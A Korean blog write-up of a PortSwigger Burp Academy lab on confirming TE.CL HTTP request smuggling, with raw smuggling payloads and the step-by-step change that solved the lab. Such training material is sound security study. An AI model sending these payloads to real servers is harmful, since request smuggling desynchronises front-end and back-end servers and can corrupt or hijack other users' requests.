 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: Confirming TE.CL vulnerabilities using differential responses"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-01-09 09:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses
- 취약점 설명페이지1: https://portswigger.net/web-security/request-smuggling
- 취약점 설명페이지2: https://portswigger.net/web-security/request-smuggling/finding
- 난이도: PRACTITIONER (보통)

# 취약점 개요
- Burp Academy 에서는 HTTP Request Smuggling을 탐지하는 단계를 세 단계로 나눠서 가르치고 있다. 
- Indentifying과 Confirming, Exploiting이 그 것이다. Indentifying은 식별, Confirming은 확신정도로 이해하면 되겠다. Exploiting은 취약점을 악용하는 단계다.
- Indentifying에서는 타임아웃이 발생하는가를 주로 보고, Confirming에서는 실제로 HTTP요청을 밀반입해서 밀반입한 요청에 대한 HTTP응답이 돌아오는지를 본다. (따라서 오리지널 요청과 밀반입용 요청은 각각 다른 HTTP응답코드가 돌아오는 요청이어야 한다.)
- 예를 들어, TE.CL Confirm용의 HTTP요청은 다음과 같이 생겼다. 

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0

```

- 프론트엔드는 TE를 보므로 마지막 `0\r\n\r\n`까지를 하나의 요청으로 인식한다. 백엔드에서는 CL을 보므로 4바이트인 `7c\r\n`까지를 첫번째 요청으로 인식한다. `GET /404` 부터는 별도 요청으로 인식해서 다음순서의 HTTP 요청에 대해서 404응답을 회신한다. 
- 404응답이 돌아오면 스머글링이 성공했다고 확신(Confirm)할 수 있다.
- 이 랩에서는 HTTP Request Smuggling 컨펌용 요청(TE.CL패턴)을 사용하는 것을 실습한다. 

# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 백엔드서버는 chunked encoding(TE헤더)를 지원하지 않는다. 
- 랩을 풀려면 백엔드 서버에게 HTTP요청을 밀반입해서, `/` 요청을 보냈을 때 404응답이 돌아오도록 하면 된다. 

```
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.
```

# 도전
1. 취약점 설명에 있는 TE.CL Confirm용 페이로드를 그대로 사용해보자. 다음과 같이 된다. 

```http
POST / HTTP/1.1
Host: 0a4c000d04892e60825ee26500a0001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: 0a4c000d04892e60825ee26500a0001a.web-security-academy.net
Content-Length: 144

x=
0

```

※ TE.CL 요청에서는 CL헤더의 값이 업데이트되지 않는 것이 중요하다. Repeater에서 Update Content-Length 옵션을 끈다. 

2. 요청을 보내면 왜인지 Read 타임아웃이 발생한다. 

![HTTP 요청 스머글링 시도](/images/burp-academy-hrs-5-1.png)

3. GET 부분을 따로 보내본다. 그러면 GET 요청시는 Body가 있으면 안된다는 응답이 돌아오는 것을 볼 수 있다. 

![HTTP 요청 스머글링 시도](/images/burp-academy-hrs-5-2.png)

4. 정답을 참고해서 스머글링용 요청의 메소드를 GET에서 POST로 변경한다. Host헤더도 없앤다. 요청을 보내보면 처음엔 200응답이, 두번째는 404응답이 되는 것을 볼 수 있다. 

![HTTP 요청 스머글링 시도](/images/burp-academy-hrs-5-3.png)

5. 웹 브라우저를 리로드하면 문제가 풀린 것을 알 수 있다. 

![풀이 성공](/images/burp-academy-hrs-5-success.png)
